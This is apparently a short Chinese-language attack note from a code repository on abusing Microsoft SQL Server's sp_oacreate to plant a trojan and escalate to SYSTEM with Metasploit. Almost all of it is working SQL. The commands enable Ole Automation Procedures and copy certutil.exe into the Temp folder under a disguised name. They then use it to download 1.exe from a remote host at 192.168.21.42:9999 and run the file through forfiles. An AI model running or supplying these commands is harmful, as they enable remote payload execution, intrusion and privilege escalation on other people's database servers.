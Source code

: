 利用`sp_oacreate`来上线马子，然后直接MSF提权到`NT AUTHORITY\SYSTEM`。

```sql
# 判断SP_OACREATE状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# 启用SP_OACREATE
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;

# 将certutil.exe复制到C:\Windows\Temp\目录下并重命名
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# 远程下载马子
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/1.exe" C:\Windows\Temp\1.exe'

# 利用forfiles来运行马子
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\1.exe';
```

![](./images/2.png)
